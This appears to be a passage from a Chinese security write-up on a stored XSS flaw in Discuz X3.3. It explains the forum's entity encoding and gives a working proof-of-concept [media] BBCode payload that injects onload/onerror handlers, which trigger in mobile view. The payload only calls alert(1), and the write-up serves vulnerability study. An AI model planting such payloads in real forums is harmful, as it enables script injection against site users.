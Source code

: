 会先对`&`、`"`、`<`、`>`进行编码

然后又会对符合`'/&amp;((#(\d{3,5}|x[a-fA-F0-9]{4}));)/'`正则的字符进行还原，

从而payload里只能插入`&#x003c;`而不应该是`&#x3c;`，也算是discuz的一个小特性把



# Discuz 正文存储型XSS

测试环境 Discuz x3.3 utf-8

## 漏洞利用

以非PC端查看，这里可以直接利用chrome的调试功能，改成手机模式即可

这回的帖子标题随意，在正文中插入

```
[media=mp3,200,300]http://www.tudou.com/programs/view/a' onload=alert(1) onerror=alert(1)[/media]
```

以手机端访问的时候就能触发XSS

![](Discuz漏洞分析\5.png)

## 漏洞分析
